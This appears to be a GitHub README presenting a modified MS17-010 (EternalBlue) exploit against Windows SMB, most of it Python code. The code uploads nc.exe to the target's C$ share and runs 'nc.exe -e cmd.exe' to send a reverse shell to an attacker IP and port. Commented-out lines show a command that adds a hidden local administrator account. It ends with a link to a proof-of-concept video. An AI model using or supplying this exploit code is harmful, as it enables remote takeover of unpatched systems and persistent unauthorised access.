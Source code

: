 # MS-17-010_Reverse_Connection_nc
#### Run MS17-010 modified exploit to get reverse nc connection
#### Original: https://github.com/worawit/MS17-010

##### Change LHOST and LPORT. This is your IP address and port where you are listening.
##### nc.exe is in same folder where you saved the script.

#### Modified Code
---------------------------------------------------------------------------------------------------------------------------------------

def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()	
	#print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
	#smbConn.closeFile(tid2, fid2)
	#smbConn.disconnectTree(tid2)
	
	#smb_send_file(smbConn, 'Full path of nc in local', 'C', '/nc.exe')
	smb_send_file(smbConn, 'nc.exe', 'C', '/nc.exe')
	#service_exec(conn, r'cmd /c net user temp temp123 /add && net localgroup administrators temp /add')
	print "check your nc...for reverse connection...."
	#service_exec(conn, r'cmd /c c:\\nc.exe -e cmd.exe LHOST LPORT')
	service_exec(conn, r'cmd /c c:\\nc.exe -e cmd.exe 10.11.0.152 3333')
	smbConn.disconnectTree(tid2)
	
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
	
def smb_send_file(smbConn, localSrc, remoteDrive, remotePath):
	with open(localSrc, 'rb') as fp:
		smbConn.putFile(remoteDrive + '$', remotePath, fp.read)
		
----------------------------------------------------------------------------------------------------------------------------------------


POC: https://giant.gfycat.com/HappygoluckyEdibleHummingbird.webm


